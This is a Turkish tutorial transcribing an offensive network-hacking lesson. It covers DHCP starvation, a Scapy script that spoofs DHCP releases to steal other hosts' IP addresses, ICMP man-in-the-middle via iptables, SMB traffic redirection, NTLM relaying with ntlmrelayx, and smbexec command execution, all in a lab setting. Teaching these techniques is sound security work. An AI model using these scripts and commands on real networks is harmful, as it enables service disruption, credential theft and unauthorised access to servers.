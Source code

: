 # **Network Hacker 0x04 - Yetkilerini Aş /w Barkın Kılıç**  

Eğitim serisinin [4. videosunu](https://www.twitch.tv/videos/658410127) yazılı hale getirmeye çalışacağım. Keyifli okumalar dilerim.  

## **0x00 : Giriş**
Bir önceki yayında uygulaması eksik kalan teorik bilgilerin pratik karşılıklarını bu derste ele alacağız. DHCP ve ICMP üzerinden yapılan saldırıların yanı sıra SMB protokolüyle ilgili örnekler de yer alacak.

## **0x01 : Topoloji**

![Topoloji](img/0x04/1.png)

Bu derste **DHCP client simülasyonu** yapan bir Python kodu geliştirildi. [Koda erişmek için tıklayın.](tools/dhcp_client.py)

DHCP Discover paketleri gönderilirken ethernet seviyesinde belirli bir MAC adresine yönelik talep yapılır. **Broadcast MAC** adresiyle (örneğin `b'\xff\xff\xff\xff\xff\xff'`) çalışılır. Bu adres değiştirildiğinde farklı IP adresleri atanır. (14. satır)

Örneğin:
```python
srcMacB = b'\xff\xff\xff\xff\xff\xfe'
```
srcMacB değerini yukarıdaki gibi baştaki `\xff` değerini hariç tutarak değiştirdiğimiz zaman DHCP protokolü adres aralığında istediğimiz gibi konuşup istediğimiz gibi aksiyon gerçekleştirebiliyoruz. DHCP sunucusundan sürekli IP talep ederek IP havuzunu doldurabilir ve yeni cihazların IP alması engelleyebiliriz. Sonuç olarak aynı fiziksel cihaz, farklı MAC ve IP ile ağda "birden fazla cihaz" olarak görünebilir.

![DHCP Havuz](img/0x04/2.png)

Görüldüğü üzere `\xff` ile tanımlanan mac adresine tahsis edilen ip **10.10.10.11** iken 
`\xfe` ile tanımlanan mac adresine tahsis edilen ip **10.10.10.12** olmakta 
Bunların hepsi aynı fiziksel bilgisayardan gelen talepler ama sistem yöneticisi baktığında 4 farklı cihaz var gibi anlıyor.

## **0x02 : DHCP Starvation Attack**

Bu saldırıda, rastgele MAC adresleri üretilip sürekli IP talebi yapılarak DHCP sunucusunun IP havuzu doldurulur.

![DHCP Starvation](img/0x04/3.png)

Bu atak sonucunda yeni cihazlar IP adresi alamaz. Bunun bir tık ilerisi de hali hazırda ip almış sistemin ipsini boşa çıkarabiliriz. Ip adresini kendimiz alabiliriz. Bunun için 79-85. satırlar arasında yer alan kısımları yorum satırına alalım ve 87. satırdaki yorum satırını açalım. 

Trafiğin arasına girme işlemi yapmıyoruz ip çalma veya değiştirme işlemi yapıyoruz
IP'si 20 ile biten cihazı release etmek istiyorum. İlgili yerleri 20 olarak değiştirerek komutu çalıştırıyorum.

**Kod Parçacığı:**
```python
srcMacB = b'\xff\xff\xff\xff\x09\xfe'
bootp = BOOTP(chaddr=srcMacB, ciaddr='10.10.10.20', xid=tid)
dhcp = DHCP(options=[("message-type", "release"), ("requested_addr", "10.10.10.20"), "end"])
```

Saldırgan, ağdaki cihazların MAC ve IP bilgilerini kullanarak belirli cihazların IP adreslerini düşürebilir.

![Release İşlemi](img/0x04/4.png)

Arka tarafta sürekli olarak ip alamaya çalışan istemcileri dinleyerek paketlerini yakalayıp istediği mac adresini alıp ip ve mac adreslerini kullanarak release eden bir script yazabiliriz. 

```python
def sniffer():
    sniff(iface=interface, stop_filter=sniffer_get)

def sniffer_get(packet):
    global srcMacB, offerIP, bootp
    if ARP in packet:
        print("ARP", packet[0][0][1].hwsrc, "/", packet[0][0][1].psrc)
        srcMacB = binascii.unhexlify(packet[0][0][1].hwsrc.replace(':', ''))
        offerIP = packet[0][0][1].psrc
        release()
        srcMacB = binascii.unhexlify("ff" + randomString(14))
        print("DHCP STEAL IP: ", offerIP, "MAC: ", srcMacB)
        bootp = BOOTP(chaddr = srcMacB, ciaddr = '0.0.0.0', xid = tid)
        time.sleep(1)
        request()
        return False
```

Bu kod parçacağı ağda giden bir dhcp requesti içerisinden dataları topluyor. Bunu release edip sonra ip adresine gidip random belirlediğimiz mac adresini buna ver diyor. Yani ağdaki güvenilir bir ip ile rastgele bir macten istediğimiz gibi gezebiliyor oluyoruz.

## **0x03 : ICMP ile MITM**

Switchlerde **ARP Inspection** veya diğer güvenlik önlemleri nedeniyle, 2. katmandaki MITM saldırıları zorlaştırılabilir ancak geçen eğitimde de öğrendiğimiz üzere 3. katmanda ICMP protokolü kullanılarak saldırılar gerçekleştirilebilir. Şimdi bunun uygulamasını gerçekleştireceğiz. [Kodu için tıklayınız](tools/icmp_mitm.py)

**ICMP ile Paket Yönlendirme - Linux:**

  ```bash
  cat /proc/sys/net/ipv4/ip_forward
  ```
  Eğer `0` dönerse, paket yönlendirme kapalıdır. `1` dönerse paketler yönlendirilir.

MITM sırasında saldırgan gelen paketleri kurban-2'den alır ve kurban-1'e iletir (Kırmızı oklar):

![MITM İşleyişi](img/0x03/7.png)

```bash
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
eth0'dan çıkan paketlerin hepsi benim eth0'daki ip adresimde maskeleme işlemini yapıyor. Kaynak ip adresini kurbandan değil, saldırgandan geliyor gibi görüyor. Böylece reply cevapları da artık pratikte bana döner oluyor (NOT yapıyor) ve ful bir mitm'a çevrilmiş oluyor. 

![wireshark](img/0x04/5.png)

### **Protokol Sömürme**
Saldırgan, oturum çalma veya protokol sömürme yoluyla hassas verilere erişebilir. Örneğin:

**NTLM Hash Çalma:**

Bir istemci, bir Windows sunucusuyla bağlantı kurmak istediğinde:

   - İstemci tarafından gönderilen doğrulama bilgileri (hash) saldırgan tarafından yakalanabilir.
   - Saldırgan, bu doğrulama bilgilerini kullanarak sunucu üzerinde yetkili işlemler gerçekleştirebilir.

![NTLM Sömürme](img/0x04/6.png)

## **0x04 : Trafiği Yönlendirme**

Saldırgan, IP tabanlı hedef yönlendirme yaparak hedef trafiği manipüle edebilir.

```bash
iptables -t nat -A PREROUTING -s 10.10.10.11 -d 10.10.20.2 -p tcp --dport 445 -j DNAT --to 10.10.10.12
```

- Bu kuralla, 10.10.10.11 kaynaklı cihazdan gelen 445 numaralı porttaki (SMB) trafik, saldırganın cihazına yönlendirilir.

Saldırgan, [NTLMRelayx](https://github.com/SecureAuthCorp/impacket) gibi araçları kullanarak istemcilerden gelen oturum bilgilerini yakalayabilir:
  ```bash
  python3 examples/ntlmrelayx.py -t 10.10.20.2 -socks -smb2support
  ```

Bu servis arkada bir soket oluşturacak ve saldırgan arkada istediği işlemleri gerçekleştirebiliyor olacak. 
Bu işlemlerden sonra clientın servera bağlanmaya çalıştığı durumda oturum işlemleri alıyor oluyorum

![session](img/0x04/7.png)

## **0x05 : SMB ile Yetkili İşlemler**

**SMBClient ile Dosya Yerleştirme:**

Saldırgan, istemciden yakalanan oturum bilgilerini kullanarak SMB üzerinden yetkili işlemler gerçekleştirebilir.

![SMB Client](img/0x04/8.png)

Bundan sonra dosya yerleştirme, dosya çekme her şeyi yapabilir konuma geliyoruz. 
Sorulan password kısmını boş geçebiliriz çünkü oluşturduğumuz soketten açtı ve soketin yetkilendirmesine göre de boş bırakabiliriz

**SMBExec ile Komut Çalıştırma:**

Saldırgan, sunucuda komut satırına erişebilir ve dosya işlemleri yapabilir. 

![SMBExec](img/0x04/9.png)

Aynı şekilde parolayı boş bırakabiliriz. 